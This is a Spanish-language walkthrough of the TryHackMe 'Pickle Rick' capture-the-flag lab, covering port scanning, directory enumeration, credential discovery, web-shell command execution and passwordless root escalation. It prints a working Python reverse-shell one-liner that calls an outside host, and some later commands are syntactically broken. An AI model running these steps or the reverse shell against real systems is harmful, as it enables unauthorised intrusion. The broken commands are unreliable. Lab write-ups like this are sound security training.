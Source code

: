 
https://tryhackme.com/room/picklerick
# PICKEL RICK --> EASY

### --> ESCANEO                                         

Para comenzar con esta máquia una vez que la inciamos en TryHackMe utilizaremos
el ping con el objetivo de saber qué ttl nos resuelve esto mediante una traza ICMP:                                                

$ ping -c 1  10.10.209.28                                                    

Gracias a esto conocemos el sistema operativo                                
mediante el ttl.                                                            

### --> MAPEO DE PUERTOS:

Para comenzar con el scaneo de los puerto utilizo este script de nmap el cual
está optimizado para que sea lo suficientemente rápido y no perder tiempo:   

$ sudo nmap -sS --min-rate 5000 --open -n -Pn -vvv 10.10.209.28 -oG ScanPort 

Con el script anterior lo que hacemos es analizar de manera general todos los
puertos abiertos y después sacar los puertos abierto y poder escanearlos con 
el siguiente scritp de forma detallada.                                       

$ nmap -sC -sV -p22,80 10.10.209.28 -oN Ports                                

De esta forma con ambos scripts ya conseguimos lo que necesitamos acerca de  
los servicios que manejan cada puerto.                                       
De antemano vemos que devuelve un puerto 80, esto ya nos da la información    
que maneja un servidor web por lo que vamos a explorar dicha página web.     

Entrando a la página no encontramos nada importante en el frontend o interfaz
por lo tanto daremos ctrl+u para ver el código fuente por si encontramos algo
que sean indicios de algo. Analizando el código fuente vemos comentarizado
lo siguiente:                                                                

Username: R1ckRul3s                                                          

Normalmente nombres así pueden ser potenciales usuarios para poder hacer el
ataque necesario. Pero no es todo, de esta misma forma podemos encontrar
contraseñas.

Como forma adicional podemos ver que existe un directorio por el que se manda
a llamar la imagen que esta en el inicio, nos dirijiremos mediante la url a
este directorio

--> http://10.10.209.28/assets/

De esta forma hacemos el movimiento de directorio, pero ya estando dentro nos
damos cuenta que no hay mas que imagenes pero sabemos que hay mas directorios
por lo tanto utilizaremos el enumeramiento de directorios con gobuster en mi
caso pero usa el de tu preferencia:

gobuster dir -u http://10.10.209.28/ -w /usr/share/wordlists/dirbuster/direct
ory-list-2.3-medium.txt -x php,txt,py,zip,html

Una vez termine vemos que existe un documento robots.txt, estos documentos
suelen tener información bastante sensible, por lo tanto siempre hay que
buscarlos pues nos serian de gran ayuda.

Bien, ya entrando desde el link de la misma forma que con la carpet assets lo
hacemos pero poniendo /robots.txt y así nos dirigiremos a dicho archivo.
NOTA: el traversal se hace mediante la url de la página.

frase encontrada: Wubbalubbadubdub

Potencialmente puede ser la contraseña del usuario que encontramos

Como información adicional del gobuster encontramos 2 archivos .php pero uno
viene como login.php, por lo tanto abriremos primero eso de la misma forma
que abrimos los demás archivos. Una vez abierto los dos vemos que nos dirijen
al mismo login por lo tanto no haremos mas que intentar burlar este login.
Lo primero a intentar es utilizar credenciales por defecto como:             

*admin = admin
*user = pass
*root = root

Entre otras contraseñas, pero al no coincidir con estas   
primers dos, lo mas recomendable es probar con lo que ya  
tenemos:                                                  

*Username: R1ckRul3s                                       
*Password: Wubbalubbadubdub                                
                                                                             
Utilizando estas credenciales vemos que nos da acceso a un panel de ejecucion
algunas veces nos pueden dar este tipo de paneles con una bash, pero primero 
hay que ver qué tipo de comandos ejecuta. Al buscar y probar comando de dife-
rente lenguajes, me di cuenta que es terminal de comandos, por lo tanto con
los siguientes comando averiguaremos quienes somos, donde estamos y que hay
donde yo estoy:                                                              

*$ pwd    --> en que directorio estamos
*$ whoami --> quien soy en el sistema
*$ ls     --> lista directorio actual

Con el comando ls encontramos el archivo donde encontraremos una flag o
ingrediente, utilizamos varios comando, pero nos damos cuenta que no deja uti
lizar el comando cat y nano, por lo tanto usaremos strings, con esto logramos
ver el contenido del archivo, y asi ver el de los demas archivos y listo     
primera flag econtrada.                                                      
para una reverse shell buscaremos que haya python en cualquier version o en  
su defecto perl, ruby o php, asi podremos ejecutarla                         
para probar python usaremos un comando simple y veremos si nos da un output  
$ python3 -c "print('hello world')"                                          
                                                                             
Y nos devuelve un output deseado, por lo tanto usaremos la siguiente reverse 

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.152.61",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

cambiamos la IP a nuestra IP de la vpn y ponemos un el puerto 1234 en escucha para
la reverse shell con el comando:

$ nc -lnvp 1234

#################NOTA: 

Ejecutaremos primero la instruccion del puerto en escucha en nuestra terminal,
la reverseshell la actualizaremos con nuestra IP y esa se ejecuta directamente en la 
webshell que esta en el navegador.

De esta forma obtenemos acceso a la máquina desde nuestra terminal, mucho mas cómodo
ahora veremos con los mismos comandos quiénes somos, donde estamos y que hay donde estamos,
estamos situados exactamente en el mismo lugar que la webshell. Encontraremos la forma de
convertirnos en root, probaremos lo mas sencillo, cambiarnos a root para ver si mínimo
no tiene credenciales de autenticación:

* $ sudo su
* $ whoami

despues de la ejecucion de estos dos comando vemos que no necesitabamos credenciales para
poder hacernos root, hay hacemos path traversal a la carpeta /home de ahí nos dirigimos a 
la carpeta rick:

* $ cd /home
* $ ls /rick

Vemos que tiene un archivo con la segunda flag, la abrimos con strings y listo

$ cd rick | xargs strings "second ingredients"

ahora nos dirigiremos al directorio raiz y nos moveremos hasta root y el mismo procedimiento
listamos

$ cd ../../root | xargs strings 3rd.txt

¡¡Y listo, máquina resuelta!!.

Espero te haya gustado, es una máquina bastante sencilla, muy fácil para empezar de cero y 
conocer acerca de explotacion y búsqueda de vulnerabilidades, espero haberte enseñado algo nuevo c:

Contacto:

Discord: MrGh057#4905

